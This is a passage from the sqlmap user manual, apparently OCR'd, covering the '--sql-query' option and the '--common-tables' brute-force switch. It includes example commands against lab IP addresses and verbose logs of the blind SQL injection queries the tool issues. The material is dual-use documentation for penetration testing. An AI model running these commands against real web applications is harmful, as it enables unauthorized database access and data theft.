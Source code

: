 `[...]`\
`[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''`\
`[hh:mm:14] [INFO] retrieved: foo`\
`SELECT 'foo': 'foo'`

`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --\`\
`sql-query "SELECT 'foo', 'bar'" -v 2`

`[...]`\
`[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''`\
`[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now`\
`unpack it into distinct queries to be able to retrieve the output even if we are`\
`going blind`\
`[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS`\
`VARCHAR(8000)), (CHAR(32)))`\
`[hh:mm:50] [INFO] retrieved: foo`\
`[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds`\
`[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VA`\
`RCHAR(8000)), (CHAR(32)))`\
`[hh:mm:50] [INFO] retrieved: bar`\
`[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds`\
`SELECT 'foo', 'bar': 'foo, bar'`

\
As you can see, sqlmap splits the provided query into two different `SELECT` statements then retrieves the output for each separate query.\
If the provided query is a `SELECT` statement and contains a `FROM` clause, sqlmap will ask you if such statement can return multiple entries. In that case the tool knows how to unpack the query correctly to count the number of possible entries and retrieve its output, entry per entry.\
The SQL shell option allows you to run your own SQL statement interactively, like a SQL console connected to the database management system. This feature provides TAB completion and history support too.

### Brute force

These switches can be used to run brute force checks.

#### Brute force tables names

Switch: `--common-tables`\
There are cases where switch `--tables` can not be used to retrieve the databases' table names. These cases usually fit into one of the following categories:\
◇ The database management system is MySQL **< 5.0** where `information_schema` is not available.\
◇ The database management system is Microsoft Access and system table `MSysObjects` is not readable - default setting.\
◇ The session user does not have read privileges against the system table storing the scheme of the databases.

If any of the first two cases apply and you provided the switch `--tables`, sqlmap will prompt you with a question to fall back to this technique. Either of these cases apply to your situation, sqlmap can possibly still identify some existing tables if you provide it with the switch `--common-tables`. sqlmap will perform a brute-force attack in order to detect the existence of common tables across the DBMS.\
The list of common table names is `txt/common-tables.txt` and you can edit it as you wish.\
Example against a MySQL 4.1 target:\
`$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --commo\`\
`n-tables -D testdb --banner`

